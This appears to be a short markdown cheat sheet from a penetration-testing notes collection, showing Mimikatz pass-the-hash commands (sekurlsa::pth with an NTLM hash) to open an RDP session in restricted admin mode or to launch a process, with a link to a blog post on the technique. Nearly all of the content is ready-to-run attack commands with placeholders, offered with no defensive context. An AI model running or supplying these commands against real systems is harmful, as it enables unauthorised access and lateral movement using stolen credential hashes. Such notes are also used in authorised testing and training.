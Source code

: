 # Mimikatz

Pass the hash and run RDP remote session 

`mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<nt_hash> /run:"mstsc /v:<IP> /restrictedadmin"`

Pass the hash then execute process

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<nt_hash>

mimikatz # process::start "mstsc /v:<IP> /restrictedadmin"
```

---
## References

- [ederml's Blog: Passing the hash with native RDP client (mstsc.exe)](https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)